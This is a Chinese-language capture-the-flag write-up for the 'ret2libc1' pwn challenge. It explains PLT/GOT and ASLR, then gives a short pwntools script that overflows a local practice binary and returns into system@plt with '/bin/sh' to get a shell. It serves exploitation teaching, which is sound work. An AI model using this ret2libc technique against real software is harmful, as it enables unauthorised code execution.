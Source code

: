 # ret2libc1



#### 先讲几个知识点：

1. system函数属于libc，并且libc.so动态链接库中的函数之间相对偏移是固定的，即使打开ASLR也是如此。
2. PLT(Procedure Linkage Table)表中的数据不是函数的真实地址，带有@plt的函数起个过渡作用。
3. GOT(Global Offset Table)表中的数据才是函数最终的地址，plt表中的数据是got表的地址，可以通过plt表跳转到got表来得到函数的真正地址。
4. 地址随机化没有对PLT表和GOT表起作用。



首先file和checksec一下![1](C:\Users\86177\Desktop\PWN\retlibc\ret2libc1\1.png)

ida查看，没有后门函数，nx打开，且是动态链接程序

![2](C:\Users\86177\Desktop\PWN\retlibc\ret2libc1\2.png)

虽然说没有后门函数，但是调用了system函数：

![3](C:\Users\86177\Desktop\PWN\retlibc\ret2libc1\3.png)

并且有/bin/sh字符串：

![4](C:\Users\86177\Desktop\PWN\retlibc\ret2libc1\4.png)

gdb调试，ebp:0xffffd128

![5](C:\Users\86177\Desktop\PWN\retlibc\ret2libc1\5.png)

所以exp可以这样：

```python
from pwn import *
io = process("./ret2libc1")
elf = ELF("./ret2libc1")
system_plt = elf.plt["system"]
bin_sh = next(elf.search(b"/bin/sh"))
payload = b'A'*112 + p32(system_plt)+b'aaaa' + p32(bin_sh)
io.sendline(payload)
io.interactive()
```

![6](C:\Users\86177\Desktop\PWN\retlibc\ret2libc1\6.png)